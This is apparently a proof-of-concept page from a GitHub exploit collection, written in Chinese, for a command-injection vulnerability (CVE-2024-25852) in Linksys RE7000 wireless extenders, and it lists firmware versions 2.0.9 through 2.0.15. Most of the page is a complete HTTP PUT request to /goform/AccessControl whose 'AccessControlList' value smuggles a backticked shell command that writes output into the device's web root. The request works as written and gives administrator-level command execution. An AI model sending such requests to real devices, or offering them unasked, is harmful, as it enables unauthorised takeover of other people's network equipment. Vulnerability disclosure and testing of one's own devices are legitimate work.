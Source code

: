 ## Linksys-RE7000无线扩展器命令执行漏洞(CVE-2024-25852)

RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。攻击者可以利用该漏洞获取设备管理员权限。

## 受影响的版本：
```
RE7000 v2.0.9、RE7000 v2.0.11、RE7000 v2.0.15
```

## poc
```
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![0ed3036d6115e4c5d0da3f117cbe9a0b](https://github.com/wy876/POC/assets/139549762/ed9ceedd-1757-48a5-a03b-3cd9111a684c)

![93d68e665d74288cb215ebedd9d07040](https://github.com/wy876/POC/assets/139549762/2b99e04d-ca6a-4a8f-8332-cce7cadf4399)
